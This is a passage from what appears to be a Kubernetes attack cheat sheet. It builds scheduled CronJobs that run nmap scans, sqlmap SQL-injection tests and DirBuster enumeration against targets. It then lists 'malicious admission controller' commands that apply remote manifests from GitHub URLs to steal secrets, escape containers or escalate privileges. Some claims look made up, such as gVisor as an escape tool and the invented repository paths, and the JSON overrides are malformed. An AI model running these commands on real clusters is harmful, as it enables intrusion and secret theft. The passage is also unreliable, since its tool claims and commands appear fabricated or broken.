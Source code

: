 Explanation: This command creates a Kubernetes CronJob named `nmap-scan` using the Nmap container image. It runs the `nmap` command with the specified port range (`1-1000`) on the `target-host`. The CronJob is scheduled to run daily at midnight (`0 0 * * *`). The results can be stored in a writable hostPath mount for further analysis.


2. Using SQLMap for automated SQL injection testing:

```
kubectl create cronjob sqlmap-test --image=sqlmapproject/sqlmap --schedule="*/10 * * * *" --overrides='{"spec": {"jobTemplate": {"spec": {"template": {"spec": {"containers": [{"name": "sqlmap-test", "command": ["sqlmap", "-u", "http://target-url", "--batch"]}]},"volumes": [{"name": "hostpath", "hostPath": {"path": "/hostpath"}}]}}}}}'
```

Explanation: This command creates a Kubernetes CronJob named `sqlmap-test` using the SQLMap container image. It runs the `sqlmap` command with the `--batch` option on the specified `target-url`. The CronJob is scheduled to run every 10 minutes (`*/10 * * * *`). This allows for automated SQL injection testing on a regular basis, with the option to store the results in a writable hostPath mount.


3. Using DirBuster for web directory enumeration:

```
kubectl create cronjob dirbuster-scan --image=owasp/dirbuster --schedule="0 8 * * *" --overrides='{"spec": {"jobTemplate": {"spec": {"template": {"spec": {"containers": [{"name": "dirbuster-scan", "command": ["dirbuster", "-u", "http://target-url", "-l", "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt"]}]},"volumes": [{"name": "hostpath", "hostPath": {"path": "/hostpath"}}]}}}}}'
```

Explanation: This command creates a Kubernetes CronJob named `dirbuster-scan` using the DirBuster container image. It runs the `dirbuster` command with the specified wordlist (`directory-list-2.3-medium.txt`) on the `target-url`. The CronJob is scheduled to run every day at 8:00 AM (`0 8 * * *`). The results can be saved in a writable hostPath mount, allowing for regular web directory enumeration.



### Malicious admission controller

1. Exfiltrate container secrets using kube-robber:

```
kubectl apply -f https://raw.githubusercontent.com/twistlock/kube-robber/master/examples/malicious-admission-controller.yaml
```


2. Perform a container escape using gVisor:

```
kubectl apply -f https://raw.githubusercontent.com/google/gvisor/master/infra/malicious-admission-controller.yaml
```

3. Exploit a privilege escalation vulnerability with kube-hunter:

```
kubectl apply -f https://raw.githubusercontent.com/aquasecurity/kube-hunter/master/examples/malicious-admission-controller.yaml
```
